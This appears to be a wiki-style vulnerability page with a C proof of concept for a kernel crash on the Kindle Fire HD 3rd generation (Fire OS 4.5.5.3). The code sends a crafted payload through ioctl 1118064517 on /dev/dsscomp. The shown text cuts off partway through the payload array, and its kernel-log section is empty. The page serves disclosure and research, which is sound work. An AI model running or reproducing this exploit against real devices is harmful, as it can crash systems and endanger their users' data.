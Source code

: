 <languages  /> <translate>

漏洞影響
--------

</translate>

    Fire OS 4.5.5.3

POC
---

    /*
     * This is poc of Kindle Fire HD 3rd
     * A bug in the ioctl interface of device file /dev/dsscomp causes the system crash via IOCTL 1118064517.
     * Related buggy struct name is dsscomp_setup_dispc_data.
     * This Poc should run with permission to do ioctl on /dev/dsscomp.
     *
     * The fowllwing is kmsg of kernel crash infomation:
     *
     *
     */
    #include <stdio.h>
    #include <fcntl.h>
    #include <errno.h>
    #include <sys/ioctl.h>

    const static char *driver = "/dev/dsscomp";
    static command = 1118064517;

    int main(int argc, char **argv, char **env) {
        unsigned int payload[] = {
        0xffffffff,
        0x00000003,
        0x5d200040,
        0x79900008,
        0x8f5928bd,
        0x78b02422,
        0x00000000,
        0xffffffff,
        0xf4c50400,
        0x007fffff,
        0x8499f562,
        0xffff0400,
        0x001b131d,
        0x60818210,
        0x00000007,
        0xffffffff,
        0x00000000,
        0x9da9041c,
        0xcd980400,
        0x001f03f4,
        0x00000007,
        0x2a34003f,
        0x7c80d8f3,
        0x63102627,
        0xc73643a8,
        0xa28f0665,
        0x00000000,
        0x689e57b4,
        0x01ff0008,
        0x5e7324b1,
        0xae3b003f,
        0x0b174d86,
        0x00000400,